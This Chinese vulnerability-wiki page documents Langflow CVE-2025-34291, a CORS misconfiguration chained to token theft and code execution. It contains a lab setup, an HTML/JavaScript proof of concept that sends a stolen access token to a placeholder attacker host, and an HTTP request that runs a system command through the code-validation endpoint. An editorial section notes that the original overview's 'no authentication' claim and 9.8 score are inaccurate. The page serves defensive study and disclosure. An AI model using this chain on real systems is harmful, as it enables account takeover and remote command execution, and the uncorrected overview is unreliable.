




# Langflow ≤ 1.6.9 CORS 配置错误导致令牌劫持和远程命令执行漏洞 CVE-2025-34291

## KEV 来源补核（2026-10-03）

现有正文有实际跨站刷新步骤和 HTML，属于同一链条，不再另建重复入口。Obsidian 原报告及 CNA 支持的前提是：**已有登录会话、恶意页面交互、允许携带凭据的跨域策略与 `refresh_token_lf` Cookie 的组合**。它不同于 CVE-2025-3248 的旧版匿名接口；原稿概述“无需任何身份验证”与直接 9.8 分描述不完整。研究者给本链 CVSS v4.0 9.4，不应把另一漏洞评分套入。

原稿将框架配置 `allow_origins=['*']` 等同线上响应永远是 `Access-Control-Allow-Origin: *`。此次检查 Langflow 1.6.9 的 CORS 接入、其 `uv.lock` 固定的 Starlette 0.48.0，以及该版本 `cors.py`：带 Cookie 且允许所有 origin 的简单响应会改为回显具体 Origin，并添加 `Vary: Origin`；因此不能仅凭“浏览器拒绝通配符加凭据”否定原报告，也不能省略这一中间件行为。这里只核对相关调用段和锁文件字段，未审整个 Langflow 仓库。

该 Cookie 实际名称是 `refresh_token_lf`，原报告配置为 `SameSite=None; Secure`；浏览器是否发送仍受其 Cookie 策略约束。既有代码的令牌外送和命令请求有真实副作用，空 `Authorization` 的捕获报文不能独立证明后续认证请求成功。原报告将 1.7 安全默认值写为当时计划，不能据此把计划当成此次确认的全分支修复；CNA 已确认范围到 1.6.9，更新部署应另核当前维护者发布说明。

来源：[Obsidian 原始技术报告](https://www.obsidiansecurity.com/blog/cve-2025-34291-critical-account-takeover-and-rce-vulnerability-in-the-langflow-ai-agent-workflow-platform)、[Langflow 1.6.9 接入代码](https://github.com/langflow-ai/langflow/blob/1.6.9/src/backend/base/langflow/main.py)、[依赖锁](https://github.com/langflow-ai/langflow/blob/1.6.9/uv.lock)、[Starlette 0.48.0 CORS](https://github.com/encode/starlette/blob/0.48.0/starlette/middleware/cors.py)。已全文阅读原稿与报告技术正文，未打开报告中的在线 PoC 或执行 HTML；未逐图检查截图。既有代码、地址和示例值保留。


<!-- vulwiki-editorial:start -->
## 校订与适用边界


### 本次正文校订

- 按实际内容修正 2 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 概述省略已登录受害者访问恶意站点与cookie/令牌前提
- ACAO通配符与credentials同时开启的利用解释需与浏览器拦截规则核验
- 最终请求Authorization为空且固定长度需重算
- 缺修复版本

### 核验来源

- https://www.obsidiansecurity.com/blog/cve-2025-34291-critical-account-takeover-and-rce-vulnerability-in-the-langflow-ai-agent-workflow-platform

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

## 漏洞描述

Langflow 作为一个开源的 AI 工作流构建平台，允许用户通过可视化界面创建和管理 AI 驱动的自动化流程。该漏洞存在于代码验证功能中，攻击者无需任何身份验证即可通过精心构造的恶意请求在服务器上执行任意代码，完全控制系统。

漏洞的 CVSS 评分为 9.8，主要影响 Langflow 的 API 端点 `/api/v1/validate/code`。该端点本应仅用于验证用户提交的 Python 代码片段是否合法，但由于缺乏必要的安全防护措施，导致攻击者可以绕过所有限制直接执行系统命令。这种类型的漏洞在 Web 应用中尤为危险，因为它不仅威胁数据安全，还可能导致整个服务器沦陷。

参考链接：

- https://github.com/langflow-ai/langflow
- https://www.obsidiansecurity.com/blog/cve-2025-34291-critical-account-takeover-and-rce-vulnerability-in-the-langflow-ai-agent-workflow-platform
- https://www.vulncheck.com/advisories/langflow-cors-misconfiguration-to-token-hijack-and-rce
- https://github.com/13ph03nix/langflow-nginx-https

## 漏洞影响

```
Langflow <= 1.6.9
```

## 环境搭建

通过 [该项目](https://github.com/13ph03nix/langflow-nginx-https) 启动一个 Langflow 1.6.9 服务：

```shell
docker-compose up -d
```

服务启动后，访问 `https://your-ip` 即可查看到 Langflow 主页，通过账号密码 `admin/admin` 登录。




## 漏洞复现

该漏洞链通过组合利用 Langflow 中的三个安全弱点，最终导致远程代码执行风险：

- 过于宽松的 CORS 配置：Langflow 允许来自任意来源的跨域请求携带用户凭据 `Access-Control-Allow-Origin: *` 且 `Allow-Credentials: true`，使攻击者控制的恶意站点能够在用户浏览器上下文中发起认证请求并读取响应。
- 缺乏 CSRF 防护机制：`/api/v1/refresh` 接口用于刷新访问令牌，但未引入 CSRF 校验，导致攻击者可在跨站请求中利用浏览器自动携带的 refresh_token Cookie，完成身份认证操作。
- 代码验证接口的功能特性：为验证用户提交代码的合法性与可执行性，Langflow 提供了代码验证接口，该接口会在服务器端实际执行用户提交的代码。在认证机制被绕过的情况下，该接口可被滥用以执行任意恶意代码。

该漏洞链主要攻击流程及前置条件如下：

- 用户已经登录 Langflow，浏览器中保存有效的 `refresh_token` Cookie。
- 用户访问攻击者控制的恶意页面，页面中嵌入的恶意 JavaScript 并自动执行。
- 恶意页面在用户浏览器中发起跨站请求，通过 `/api/v1/refresh` 接口获取新的 `access_token`。
- 攻击者利用新的 `access_token` 冒充用户身份，通过代码验证接口执行任意命令。

我们已经通过登录模拟了用户登录状态。构建一个简单的 poc，假设引导用户点击该页面，如果利用成功，攻击者 9999 端口应该收到新的 `access_token`：

```
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <title>Langflow CORS Chain PoC</title>
</head>
<body>
  <h2>Langflow CORS Chain PoC</h2>
  <button onclick="attack()">Click to Test</button>

  <pre id="output"></pre>

  <script>
    const TARGET_LANGFLOW = "https://your-ip";

    function log(msg) {
      document.getElementById("output").textContent += msg + "\n";
    }

    async function attack() {
      log("[*] Sending cross-site refresh request...");

      try {
        const resp = await fetch(
          TARGET_LANGFLOW + "/api/v1/refresh",
          {
            method: "POST",
            credentials: "include"
          }
        );

        if (!resp.ok) {
          log("[-] Request failed: " + resp.status);
          return;
        }

        const data = await resp.json();

        if (data.access_token) {
          log("[+] Access token leaked!");
          new Image().src =
            "http://attacker:9999/leak?token=" + encodeURIComponent(data.access_token);
        } else {
          log("[-] No token in response");
        }

      } catch (e) {
        log("[-] Error: " + e);
      }
    }
  </script>
</body>
</html>
```

可以看到，已经成功请求 `/api/v1/refresh` ，获取新的 `access_token`：







利用新的 `access_token` 冒充用户身份，可执行任意命令：

```http
POST /api/v1/validate/code HTTP/1.1
Host: your-ip
Connection: keep-alive
Content-Length: 125
sec-ch-ua-platform: "macOS"
Authorization: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/143.0.0.0 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://attacker:31080
Referer: http://attacker:31080/
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8

{"code":"@exec(\"raise Exception(__import__(\\\"subprocess\\\").check_output([\\\"id\\\"]).decode())\")\ndef foo():\n  pass"}
```




## 漏洞 POC

- https://www.pocs.app/langflow-cors-vul-poc.html
- https://github.com/Kai-One001/cve-/blob/main/Langflow_CORS_CVE_2025_34291_POC.html

## 漏洞修复

- 升级至安全版本
- 为 `/api/v1/validate/code` 端点添加 JWT 认证
- 使用安全的沙箱环境执行用户代码
- 实现严格的输入验证和白名单机制


---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
